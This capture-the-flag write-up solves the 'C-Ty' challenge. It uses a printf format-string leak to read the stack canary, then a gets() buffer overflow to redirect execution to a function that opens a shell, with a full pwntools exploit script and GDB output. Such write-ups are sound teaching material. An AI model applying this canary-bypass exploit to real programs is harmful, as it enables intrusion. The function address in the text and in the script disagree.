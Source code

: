 # Problem:
namp scan get the following:   
```
2500/tcp open     rtsserv?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, NULL: 
|_    Warning: this server only sends one line at a time. If you've opened a shell, this may lead to some weird shenanigans until you are able to get a proper shell with netcat.Welcome to the C-Ty! You notice a canary watching over these parts. But can you get past it with the right set of words? Input encoded in hex:
```   
Attached are two files: cty.c and cty (binary)

## Classic BOF with Canary problem
### Run the cty binary:   
```
kali@kali:~/ct-y$ ./cty
AAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
```    
### Analysis

The code is a simple c code:
``` 
#include <stdio.h>
#include <unistd.h>
#include <string.h>
 
void dumpFlag() {
    puts("The blue key to The Gate is '[key removed]'");
}
 
void runIntoTheCty() {
    puts("Running into the C-Ty...");
    char* args[] = {"/bin/sh", NULL};
    execv("/bin/sh", args);
}
 
int main() {
    char input[256];
    gets(input);
    printf(input);
    puts("");
    gets(input);
    printf(input);
    puts("");
}                      
```    
With pwn we can check the binary **cty**: it is a 64 bit ELF. As you can see, Canary protection is active.    
```
kali@kali:~/ct-y$ pwn checksec cty                                                                                
[*] '/home/kali/ct-y/cty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
With GDB we can see in the main function, the canary is checked:    
```
   0x0000000000401256 <+125>:   call   0x401030 <puts@plt>
   0x000000000040125b <+130>:   mov    eax,0x0
   0x0000000000401260 <+135>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401264 <+139>:   sub    rdx,QWORD PTR fs:0x28     //check canary. RDX is the register
   0x000000000040126d <+148>:   je     0x401274 <main+155>
   0x000000000040126f <+150>:   call   0x401040 <__stack_chk_fail@plt>

   ``` 
As soon as we see the c code, we see a format string in **printf()**, and an overflow buffer in **gets()**.    
### Leak the Canary
We do a python code to see possible outputs of **format strings**      
**%dlx** is used to print out address value

```
#!/usr/bin/env python3
from pwn import *

io = ELF("./cty")
for i in range(50):
  p = io.process(level="error")
  p.sendline("33")
  p.sendline("AAAA %%%d$lx" % i)
  p.recvline()
  print("%d - %s" % (i, p.recvline().strip()))
  p.close()
```
Output is:
```
kali@kali:~/ct-y$ python3 t1.py
[*] '/home/kali/ct-y/cty'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
0 - b'AAAA %0$lx'
1 - b'AAAA 6c24312520414141'
2 - b'AAAA 0'
3 - b'AAAA 7fee9f427980'
4 - b'AAAA 7fff84aba680'
5 - b'AAAA 0'
6 - b'AAAA 2436252041414141'
7 - b'AAAA 7f68d200786c'
8 - b'AAAA 0'
9 - b'AAAA 7ffe058d6790'
10 - b'AAAA 7f866c983730'
11 - b'AAAA 7fe96a5b4ac0'
12 - b'AAAA 0'
13 - b'AAAA 0'
14 - b'AAAA 0'
15 - b'AAAA 0'
16 - b'AAAA ffffffff'
17 - b'AAAA 0'
18 - b'AAAA 7ffc83d342a8'
19 - b'AAAA 7f1aa9e29730'
20 - b'AAAA 0'
21 - b'AAAA 0'
22 - b'AAAA 0'
23 - b'AAAA 0'
24 - b'AAAA 0'
25 - b'AAAA 0'
26 - b'AAAA 0'
27 - b'AAAA f0b5ff'
28 - b'AAAA c2'
29 - b'AAAA 7ffefe41cea7'
30 - b'AAAA 7ffd535a3946'
31 - b'AAAA 7f1a482769f5'
32 - b'AAAA 0'
33 - b'AAAA 4012cd'
34 - b'AAAA 0'
35 - b'AAAA 0'
36 - b'AAAA 401280'
37 - b'AAAA 401080'
38 - b'AAAA 7ffc4da218f0'
39 - b'AAAA 369bda5ddbf1bc00'
40 - b'AAAA 401280'
41 - b'AAAA 7fecf9ae4e0b'
42 - b'AAAA 0'
43 - b'AAAA 7ffe78103658'
44 - b'AAAA 100040000'
45 - b'AAAA 4011d9'
46 - b'AAAA 0'
47 - b'AAAA d2d22253bdd7b319'
48 - b'AAAA 401080'
49 - b'AAAA 7ffe0446bea0'
```
Out starting with **0x7f** correspond to libc memory addresses. Canary usually ends with **00**.
In 39th, we see one canary possible address.   
To calculate if the canary corresponds with output 39 of **format string**, we use gdb again:

```
kali@kali:~/ct-y$ gdb cty
GNU gdb (Debian 9.2-1) 9.2
gef➤  disass main
Dump of assembler code for function main:
0x00000000004011d9 <+0>:     push   rbp
.....
0x0000000000401260 <+135>:   mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000401264 <+139>:   sub    rdx,QWORD PTR fs:0x28
0x000000000040126d <+148>:   je     0x401274 <main+155>
0x000000000040126f <+150>:   call   0x401040 <__stack_chk_fail@plt>
...
End of assembler dump.
gef➤  b *main+139
Breakpoint 1 at 0x401264
gef➤  r
Starting program: /home/kali/ct-y/cty 
%39$lx
d2f524612effb00     //Canary value at 39th
A
A
Breakpoint 1, 0x0000000000401264 in main ()
.....
gef➤  p $rdx
$2 = 0xd2f524612effb00  //Canary value at the rdx. They match
````
Perfect, we get the location at 39.

### Padding
Now we calculate the padding we use to overwrite the canary and then the return address.  
Breakpoint set at the canary check point again: *main+139
```
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
gef➤  r
Starting program: /home/kali/ct-y/cty 
a
a
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa

Breakpoint 1, 0x0000000000401264 in main ()
gef➤  p/x $rdx               //rdx overload with created pattern, use that to find the offset
$3 = 0x6261616161616169
gef➤  pattern offset 0x6261616161616169
[+] Searching '0x6261616161616169'
[+] Found at offset 264 (little-endian search) likely
```
We found the offset to **canary** likely to be **264**. So we create the payload to be like this:
```
"A"*264+CANARY+"A"*8+ ROP
```
**ROP** is the function jump address. In this case, would be the address of **void runIntoTheCty()**.
We can find it using GDB. The address is **0x40117d**
```
gef➤  b runIntoTheCty
Breakpoint 2 at 0x40117d
```
Thus we craft the python program like this:
```
#!/usr/bin/evn python3
from pwn import *

e = ELF('./cty')
io = e.process()
gdb.attach(io)
io.sendline('%39$lx')
leak = io.recvline()
canary = int(leak.strip(),16)
log.info("Canary: %s" % (hex(canary)))

run = 0x401179
pl = b'A'*8
payload = b'A'*264 + p64(canary) + pl + p64(run)
io.sendline(payload)
io.interactive()
```




